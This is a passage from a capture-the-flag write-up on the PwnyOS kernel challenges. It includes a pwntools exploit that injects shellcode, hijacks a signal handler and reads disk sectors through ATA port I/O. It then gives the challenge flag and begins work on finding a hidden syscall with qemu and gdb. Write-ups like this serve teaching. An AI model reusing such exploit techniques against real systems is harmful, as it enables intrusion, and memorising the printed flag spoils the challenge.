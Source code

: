 ```python
newshellcode = bufaddr + 0x50
sc = asm(f"mov eax, 4; xor ebx, ebx; mov ecx, {hex(newshellcode)}; mov edx, 0x100 ; int 0x80")
# Register the new shellcode as sigsegv handler then trigger sigsegv
sc += asm(f"xor ebx, ebx ; mov ecx, {hex(newshellcode)} ; mov eax, 14 ; int 0x80")
sc += asm(f"mov eax, 0xdeadbeef ; mov dword ptr [eax], 0")
payload = fit({0: sc, NUM_TO_RET: bufaddr})
pause()
p.sendline(payload)
time.sleep(2)
handler = asm("mov ebx, dword ptr [esp+44] ; or ebx, 0x3000 ; mov dword ptr [esp+44], ebx")
handler += asm(f"mov dword ptr [esp+36], {hex(newshellcode + 0x17)}; ret")
handler += asm("mov dx, 0x1f6 ; mov al, 0xe0 ; out dx, al")
handler += asm("sub dx, 5 ; xor al, al ; out dx, al") # dx: 0x1f1
handler += asm("inc dx ; out dx, al") # dx: 0x1f2
handler += asm("inc dx ; out dx, al") # dx: 0x1f3
handler += asm("inc dx ; out dx, al") # dx: 0x1f4
handler += asm("inc dx ; out dx, al") # dx: 0x1f5
handler += asm("mov dx, 0x1f7 ; mov al, 0x20 ; out dx, al") # dx: 0x1f7
handler += asm("sub dx, 7 ; mov ecx, 0x20 ; mov edi, 0x8249000 ; rep insw") # dx: 0x1f0
handler += asm("xor ebx, ebx ; mov ecx, 0x8249000 ; mov edx, 0x40 ; mov eax, 5 ; int 0x80")
p.sendline(handler)
p.interactive()
```
Flag: `uiuctf{ata_1s_my_f4v0r1t3_x86_pc_featur3}`

## Zeroday Challenges
There is a secet undocumented syscall, as well as 3 new ones for PwnyOS 1.1. The first 2(sighandler_install and sigreturn) aren't of much help for this challenge, but the last one, syscall 16(getphys) is useful, giving the physical address of the mmap page.

Moving from challenge 1 to challenge 2 isn't a lot of steps, so I'll write these up in one.

### Part 1
#### Finding the mysterious syscall

![Part 1](https://user-images.githubusercontent.com/62653826/128645666-36c0b28e-0c34-4266-a8b9-99027a4347e8.png)

Our goal here is to gain arbitrary kernel memory read, and then read the flag from kernel memory. To do this, first of all, we need to find the hidden syscall. To do this, I decided to find the syscall table. In this image, we have binexec, so executing shellcode becomes easy.

I added `-s` to the qemu options, which creates a gdb server listening on port 1234. This allows for debugging, even the kernel.  All that is required is to run gdb, and then the gdb command `target remote :1234`, and you'll be connected.

We can analyse the kernel using ghidra(however I found ghidra mismapped some kernel data addresses), and also dump the instructions via objdump.

When debugging qemu with gdbserver, stepping from an int 0x80  allows you to see the kernel code behind it.

After running int 0x80, the kernel starts executing from 0x403d33. This pushes the registers onto the stack, calls a handling function, and then pops from the stack.
```assembly
  403d33:	6a 00                	push   0x0
  403d35:	50                   	push   eax
  403d36:	51                   	push   ecx
  403d37:	52                   	push   edx
  403d38:	53                   	push   ebx
  403d39:	55                   	push   ebp
  403d3a:	56                   	push   esi
  403d3b:	57                   	push   edi
  403d3c:	54                   	push   esp
  403d3d:	e8 da db ff ff       	call   0x40191c
```